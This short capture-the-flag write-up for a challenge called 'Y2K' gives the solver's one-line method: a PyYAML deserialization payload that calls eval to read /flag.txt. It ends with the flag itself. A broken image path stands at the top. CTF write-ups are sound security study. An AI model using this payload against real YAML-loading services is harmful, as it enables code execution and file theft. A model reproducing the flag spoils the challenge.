 # Y2K

## Solver: `Noderyos`

According to [this writeup](https://hackmd.io/@harrier/uiuctf20), I used `!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ 'open("/flag.txt").read()' ]]]` to read the file

## Flag : `flag{b20870a1955ac22377045e3b2dcb832a}`
